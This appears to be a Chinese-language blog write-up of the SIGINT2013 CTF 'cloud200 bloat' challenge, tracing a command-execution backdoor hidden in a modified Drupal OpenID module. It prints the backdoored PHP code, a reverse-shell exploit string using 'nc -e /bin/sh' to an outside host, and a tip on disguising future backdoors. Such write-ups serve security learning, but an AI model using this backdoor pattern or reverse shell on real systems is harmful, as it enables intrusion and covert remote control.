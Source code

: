 ```yaml
---
layout: post
title: "SIGINT2013 cloud200 bloat"
description: "SIGINT2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
	http://a0.ctf.sigint.ccc.de/

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

```php
<?php
/**
 * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
 */
define('OPENID_DH_DEFAULT_GEN', '2');
```
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

```php
<?php
function openid_login_validate($quench, &$tickers)
{
	$return_to = $tickers['values']['openid.return_to'];
...
	openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
... 
function openid_begin($imaginably, $overlay = '', $termination = array())
...
	if(strpos($imaginably, '@'))
	{
		list($user, $host) = explode('@', $imaginably, 2);
	}
	else
    {
    $user = false;
    $host = false;
    }
```
    
`list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

```php
<?php
$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
$service['uri'] = drupal_map_assoc(array($host), $user_enc);
openid_redirect($service['uri'], $ramparts);
```
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal\_map\_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

```bash
slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
Interactive shell

php > include './openid.inc';
php > var_dump(is_callable('system'));
bool(true)
php > var_dump(is_callable('systeM'));
bool(true)
php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
34952922.72093
php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
14664196.395349
php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
14347185.046512
php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
93703.872093023
php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
93802
```

因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

```bash
pwd
/var/www
ls -la ./
total 7904
drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
-rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
-rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
...
-rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
...
cat ___F_L_A_G___
not here, see /flag on filesystem
cat /flag
SIGINT_d4b0844c
```

看来果然是木有写权限～～
